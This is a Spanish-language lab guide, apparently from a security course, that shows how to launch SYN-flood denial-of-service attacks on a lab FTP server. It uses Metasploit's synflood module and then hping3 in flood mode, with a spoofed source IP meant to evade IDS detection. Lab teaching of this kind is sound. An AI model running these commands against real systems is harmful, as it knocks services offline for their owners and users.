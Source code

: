 # Ataques DoS.
      

Requisitos:
1. Máquina ***Router-Ubu***.
2. Máquina ***Kali Linux***.
3. Máquina ***Metasplotaible3-Win2k8***


Los ataques ***DoS*** son los más sencillos de realizar. El atacante intenta saturar a la víctima, y si lo consigue, ésta no podrá realizar su cometido habitual. 

También sabemos que los ataques distribuidos DoS, o ***DDoS***, son prácticamente imposibles de evitar. La única forma de defendernos de ellos es que la electrónica de red o el perimetral los detecte o mitigue, ya que los sistemas operativos actuales no pueden defenderse por ellos mismos.

Estos ataques se caracterizan por consumir el ancho de banda disponible en la red de la víctima o la CPU de los dispositivos. Pertenecen al grupo de ***Ataques Volumétricos***. Los ataques más habituales son ***Inundación UDP***, ***Inundación ICMP***, ***Inundación SYN***, ***Fragmentación***

## Ejercicio 1: Lanzar un ataque de DoS con Metasploit.

En la máquina ***Metasploitable3-Win2k8***, iniciamos sesión y abrimos el ***Administrador de Tareas***. Podemos comprobar como la carga de CPU/RAM de la máquina es normal.
  
![CPU/RAM](../img/lab-06-I/202210031732.png)

El uso de la red por parte de la máquina está al mínimo.

![RED](../img/lab-06-I/202210031734.png)

Esta máquina tiene varios servicios, entre ellos un servidor ***FTP***, un servidor ***web*** y ***mySQL***.

En la máquina ***Kali*** abrimos una terminal y ejecutamos el siguiente comando.
```
nmap 192.168.20.14
```

Vamos a atacar al servidor FTP de la víctima por medio de un ataque de inundación SYN, para denegar el servicio FTP.
```
sudo msfconsole
```

Configuramos el ataque de la siguiente forma.
```
use auxiliary/dos/tcp/synflood
```

```
set RHOST 192.168.20.14
```

```
set RPORT 21
```

Para intentar engañar a los IDS, usamos el parámetro ***SHOST*** donde ponemos la IP (falsa) que está realizando el ataque.
```
set SHOST 192.168.20.100
```

Comprobamos que la configuración es correcta.
```
show options
```

![TCP SYN](../img/lab-06-I/202210031742.png)

Lanzamos el ataque.
```
run
```

Si observamos, en la víctima, apenas se ha incrementado la carga de CPU de la víctima un 5%-9%. ***Metasploit*** no es especialmente efectivo y necesitaría realizarse un ***DDoS*** para saturar a la víctima.

En la máquina ***Kali***, detenemos el ataque pulsando ***CTRL+C***.


## Ejercicio 2: Lanzar un ataque de DoS con Hping3.

Por el contrario, ***Hping3*** s mucho más eficiente. 

En la máquina ***Kali*** ejecutamos en la terminal el ataque equivalente, pero usando ***Hping3***.
```
sudo hping3 -S 192.168.20.14 -a 192.168.20.100 -p 21 --flood
```

Como podrás observar, el ataque consigue sigir la ***CPU*** de la víctima en torno al 40%.

Podrías intentar abrir otras terminales y realizar el mismo ataque, obteniendo un incremento de uso de CPU de un 5% por cada terminal.

Al igual que el experimento anterior, para garantizar una denegación de servicio efectiva, independientemente del escalado vertical que pudiera llegar a tener la víctima, sería necesario recurrir a un ***DDoS***.

Finaliza los ataques cerrando las terminales.

***FIN DEL LABORATORIO***